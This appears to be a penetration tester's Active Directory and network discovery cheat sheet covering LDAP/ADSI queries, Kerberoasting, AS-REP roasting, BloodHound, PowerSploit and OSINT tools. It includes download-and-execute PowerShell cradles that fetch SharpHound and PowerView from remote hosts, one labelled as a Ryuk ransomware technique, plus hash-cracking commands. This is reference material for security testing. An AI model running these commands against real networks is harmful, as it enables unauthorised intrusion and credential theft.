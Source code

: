 # Discovery
## User Group Membership
```powershell
Get-ADPrincipalGroupMembership "USERNAME" | Select name
```
## AD Enumeration via ADSI `DirectorySearcher`
#### Computer/User Objects
```powershell
([adsisearcher]'(&(objectCategory=Computer))').FindAll();
([adsisearcher]'(&(objectCategory=User))').FindAll();
```
#### SPNs
```powershell
([adsisearcher]"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))").FindAll();
```
Or
```powershell
$s = New-Object DirectoryServices.DirectorySearcher([ADSI]"");
$s.PageSize = 2000; 
$s.Filter = "(servicePrincipalName=*)";
$s.FindAll();
```
## Unconstrained delegation
```powershell
([adsisearcher]"(&(&(objectCategory=person)(objectClass=user)) (!userAccountControl:1.2.840.113556.1.4.803:=524288))").FindAll();
```
## Local Administrator Password Solution (LAPS)
Retrieve computers that are not configured with LAPS
```powershell
Get-ADComputer -Credential $cred -Server BURMAT.LOCAL -Filter {ms-Mcs-AdmPwd -notlike "*"} | Export-CSV -Path C:\temp\no_laps.csv;
```
BloodHound
### Ingester Launch
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;
```
## LDAP Enumeration
### Null Sessions
```sh
ldapsearch -x -h 10.10.10.123 -D '' -w '' -b "DC=BURMAT,DC=LOCAL"
```
### Queries
Below are some useful LDAP queries that will help you enumerate a system. Some of them require a valid username/password to get more information. My go-to for these queries is `ldapsearch`.&#x20;
Use the following command and fill in your LDAP query in the placeholder:
```bash
ldapsearch -LLL -x -H ldap://burmat.local -D "svc-burmat" -w "burmat123$" -b "dc=burmat,dc=LOCAL" "<LDAP QUERY HERE>"
```
The following can be used if you are using PowerShell. For example: 
```powershell
$users = ([adsisearcher]"(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll();
foreach ($u in $users) { 
    $u.Properties.samaccountname | Out-File C:\users-and-computers.txt -Append;
}
```
### Domain Usernames
Get usernames into a list by enumerating user objects:
```bash
ldapsearch -x -h burmat.local -b "dc=burmat,dc=local" -s sub "(objectclass=user)" | grep sAMAccountName | cut -d " " -f 2 > users.txt
```
### ASREPRoast Accounts
```powershell
## ldap filter to find accounts susceptible to this:
"(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"

## generate a list of user accounts and use impacket to exploit:

## and if you get a ticket, you can crack it:
hashcat -m 18200 -a 0 --force user.hash /usr/share/wordlists/rockyou.txt
```
### Users with SPNs
```powershell
"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"

```
If you get valid domain credentials, you can dump them w/ impacket for offline cracking:
```sh
python GetUserSPNs.py -request burmat.local/svc-burmat:burmat123
```
### User and Computers with Unconstrained Delegation
```powershell
# user:
"(&(&(objectCategory=person) (objectClass=user)) (userAccountControl:1.2.840.113556.1.4.803:=524288))"

# computer:
"(&(objectCategory=computer) (objectClass=computer) (userAccountControl:1.2.840.113556.1.4.803:=524288))"
```
### Domain Administrators
```powershell
"(&(objectClass=user) (memberof:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=burmat,DC=local))" "objectClass=groupPolicyContainer"
```
## PowerSploit
### Discovering Domain Controllers
```powershell
Get-DomainComputer -Credential $cred -Server dc01.burmat.local -Domain burmat.local -SearchBase "LDAP://OU=Domain Controllers,DC=BURMAT,DC=LOCAL" | Export-Csv -Path C:\domain_controllers.csv
```
### Domain Computers
```powershell
Get-ADComputer -Filter * -Server dc01.burmat.local | export-csv -Path C:\temp\domain_computers.csv
```
### Unconstrained Delegation (Other than DCs)
```powershell
Get-DomainComputer -Credential $cred -Server dc01.burmat.local -Domain burmat.local -Unconstrained | Export-Csv -Path C:\unconstrained_deleg_machines.csv
```
### Allowed to Delegate
```powershell
Get-DomainUser -Credential $cred -Server dc01.burmat.local -Domain burmat.local -AllowDelegation -AdminCount | Export-Csv -Path C:\allowed_to_deleg.csv
```
### Gather User Descriptions
```powershell
Get-DomainUser -Credential $cred -Server dc01.burmat.local -Domain burmat.local -Properties SAMAccountName,Description | Select-Object SAMAccountName,Description | Export-CSV -Path C:\user_descriptions.csv
```
### Enumerate Domain Network Shares
```powershell
Find-DomainShare -ComputerName fs01.domain.local -ComputerDomain domain.local -CheckShareAccess
```
Authenticated with custom credentials:
```powershell
$secpassword = ConvertTo-SecureString 'Password123$' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $secpassword)
Find-DomainShare -Domain dir.svc.accenture.com -Credential $cred
```
Looping a list of hostnames:
```powershell
foreach ($h in $smb_hosts) {  find-domainshare -Credential $cred -computername "$h" -computerdomain burmat.local -server dc1.burmat.local -CheckShareAccess; }
```
#### Specific TTP for Ryuk
```powershell
powershell.exe -exec bypass -Command "&{[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-NetSubnet; Get-NetComputer}"
```
## theHarvester
An open-source intelligence (OSINT) gathering tool, that will tap into many difference APIs to gather data for you. GitHub: [https://github.com/laramies/theHarvester](https://github.com/laramies/theHarvester)
Installation is a PITA. Put your API keys into the api-keys.yaml file in the root of the directory
#### Email Address Gathering:
Getting a list of email addresses from i[ntelx.io:](http://intelx.io/)
```sh
python3 theHarvester.py -d contoso.com -b intelx >> intelx-contoso.com.txt
```
If you are doing multiple domains, you can use the following bash one-liner, where `domains.txt` is a list of domain names to search:
```bash
while read d; do python3 theHarvester.py -b intelx -d $d -f "th-$d"; sleep 1; done < domains.txt
```
Clean up the output to just be emails with the following, if you have problems:
```sh
grep -i -o '[A-Z0-9._%+-]\\+@[A-Z0-9.-]\\+\\.[A-Z]\\{2,4\\}' intelx-contoso.com.txt
```
<details>
<summary>Sample theHarvers API Configuration File</summary>
This goes in `~/.theHarvester/api-keys.yaml` for Kali
```
apikeys:
  bevigil:
    key:

  binaryedge:
    key:

  bing:
    key:

  bufferoverun:
    key:

  censys:
    id:
    secret:

  criminalip:
    key:

  fullhunt:
    key:

  github:
    key:

  hunter:
    key:

  hunterhow:
    key:

  intelx:
    key:

  netlas:
    key:

  onyphe:
    key:

  pentestTools:
    key:

  projectDiscovery:
    key:

  rocketreach:
    key:

  securityTrails:
    key:

  shodan:
    key:

  tomba:
    key:
    secret:

  virustotal:
    key:

  zoomeye:
    key:
```
</details>
## Web Enumeration
### aquatone
Found here: [GitHub - michenriksen/aquatone: A Tool for Domain Flyovers](https://github.com/michenriksen/aquatone)
#### Basic Usage
```bash
cat hosts.txt | aquatone -ports small -out scans/aquatone -threads 10 -screenshot-timeout 50000 -chrome-path /usr/bin/chromium
```
#### Nmap Scan Results
```bash
cat nmap/tcp_web.xml | aquatone -nmap -screenshot-timeout 50000 -out scans/aquatone -threads 10 -chrome-path /usr/bin/chromium
```
#### Using a Proxy via Burp
(Assuming Burp is listening to localhost:8080):
- `-proxy http://127.0.0.1:8080`
<details>
<summary>Built-In Port Lists &#x26; Aliases</summary>
* `small: 80, 443`
<!---->
* `medium: 80, 443, 8000, 8080, 8443 (same as default)`
<!---->
* `large: 80, 81, 443, 591, 2082, 2087, 2095, 2096, 3000, 8000, 8001, 8008, 8080, 8083, 8443, 8834, 8888`
<!---->
* `xlarge: 80, 81, 300, 443, 591, 593, 832, 981, 1010, 1311, 2082, 2087, 2095, 2096, 2480, 3000, 3128, 3333, 4243, 4567, 4711, 4712, 4993, 5000, 5104, 5108, 5800, 6543, 7000, 7396, 7474, 8000, 8001, 8008, 8014, 8042, 8069, 8080, 8081, 8088, 8090, 8091, 8118, 8123, 8172, 8222, 8243, 8280, 8281, 8333, 8443, 8500, 8834, 8880, 8888, 8983, 9000, 9043, 9060, 9080, 9090, 9091, 9200, 9443, 9800, 9981, 12443, 16080, 18091, 18092, 20720, 28017`
</details>
## Network Discovery
### ARP
```
arp -a -N [interface]
```